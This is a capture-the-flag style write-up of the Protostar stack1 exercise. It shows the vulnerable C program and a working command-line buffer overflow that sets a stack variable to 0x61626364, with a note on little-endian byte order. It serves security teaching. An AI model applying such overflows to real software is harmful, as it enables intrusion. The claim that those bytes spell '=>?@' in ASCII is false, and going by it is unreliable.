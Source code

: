 ```yaml
---
title: Protostar Writeup - stack1
updated: 2018-07-25 21:00
---
```


## Protostar - stack1

Moving on to the next challenge of Protostar. Before reading any further, I strongly advise that you try this challenge yourself first.
If you have taken a look at my [previous](http://laptop64.co/notes/proto-stack0) writeup, you can see that this challenge is fairly simple.
Instead of just modifying the 'modfied' variable we have to change it to a specific value which is `0x61626364`, which is basically '=', '>', '?' & '@' in ascii.
Here's the code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    if(argc == 1) {
        errx(1, "please specify an argument\n");
    }

    modified = 0;
    strcpy(buffer, argv[1]);

    if(modified == 0x61626364) {
        printf("you have correctly got the variable to the right value\n");
    } else {
        printf("Try again, you got 0x%08x\n", modified);
    }
}
```

Another change that we notice is that there is no `gets()` for input, instead we're taking input from the command line.
So how do we overflow this? Let's take a peek at the `strcpy()` man since this is what is used to copy into the buffer.
Scrolling down to the BUGS section, everything becomes clear.

> If the destination string of a strcpy() is not large enought, then anything might happen. Overflowing...favorite cracker technique.

With this information we can confirm that this is a buffer overflow attack. Using our knowledge from the previous write up, let's write our overflow.

```shell
$ ./stack1 $(python -c "print 'A' * 64 + '\x61\x62\x63\x64'")
Try again, you got 0x64636261
```

What?! How did that not work? The value of modified has changed, but it's `0x64636261` and not `0x61626364`. Why so?
If we take a look at the site we see a little hint:

> Protostar is little endian

What this means is that when giving input data, the data stored with the LSB first and MSB last. So the fix is simple, just reverse the bytes.

```shell
$ ./stack1 $(python -c "print 'A' * 64 + '\x64\x63\x62\x61'")
you have correctly got the variable to the right value
```

And there you have it, nice and easy.

### Sites

[Protostar](https://exploit-exercises.com/protostar/)
[Phrack](http://phrack.org/issues/49/14.html)
[endianness](https://en.wikipedia.org/wiki/Endianness)
